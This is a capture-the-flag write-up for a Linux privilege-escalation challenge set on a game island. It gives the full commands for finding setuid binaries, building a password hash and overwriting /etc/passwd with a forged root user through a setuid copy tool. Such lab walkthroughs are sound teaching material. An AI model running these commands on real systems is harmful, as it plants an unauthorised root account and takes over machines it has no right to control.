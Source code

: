# OBJECTIVE 7 - Linux PrivEsc #

## OBJECTIVE : ##
>Rosemold is in Ostrich Saloon on the Island of Misfit Toys.  Give her a hand with escalation for a tip about hidden islands.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 7</summary>
  
>-  There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.
>-	Using the privileged binary to overwrite a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

</details>

#  

## PROCEDURE : ##

Let’s start this challenge by looking in the `/bin` folder to see what tools we have to our disposition:

``~$ cd /bin``

``/bin$ ls -la | grep rwsr``

```
-rwsr-xr-x 1 root root     85064 Nov 29  2022 chfn
-rwsr-xr-x 1 root root     53040 Nov 29  2022 chsh
-rwsr-xr-x 1 root root     88464 Nov 29  2022 gpasswd
-rwsr-xr-x 1 root root     55528 May 30  2023 mount
-rwsr-xr-x 1 root root     44784 Nov 29  2022 newgrp
-rwsr-xr-x 1 root root     68208 Nov 29  2022 passwd
-rwsr-xr-x 1 root root     16952 Dec  2 22:17 simplecopy
-rwsr-xr-x 1 root root     67816 May 30  2023 su
-rwsr-xr-x 1 root root     39144 May 30  2023 umount
```

This gives us a list of applications we can run with root privileges.  Simplecopy is particularly interesting as it will allow us to copy (and overwrite) and file to any directory with root privileges. So, we should be able to create a new user by overriding the existing `/etc/passwd` file with a manually crafted one.

First, we copy the contents of `/etc/passwd` to a temporary file:

`~$ cat /etc/passwd >> /tmp/new-passwd`

Now we need to create a hashed password.  This can be done using Perl.

`~$ perl -le 'print crypt("snowballz", "abc")'`
```
abCF8jIEHXtsw
```

This gives us a salted hash for password “snowballz”, which we can now assign to a new user called “super-elf” which we append to our new passwd file:

`~$echo super-elf:abCF8jIEHXtsw:0:0:root:/root:/bin/bash >> /tmp/new-passwd`

we can now use simplecopy to overwrite /etc/passwd with our newly crafted file:

`~$ simplecopy /tmp/new-passwd /etc/passwd`

And switch to the newly created root user:

`~$ su super-elf`
```
Password: 
/home/elf#
```

We can now confirm that we now have root privileges 😊

`/home/elf# whoami`
```
Root
```

All that’s left is for us to run the binary in the /root folder:
```
/home/elf# cd /root
~# ./runmetoanswer
```

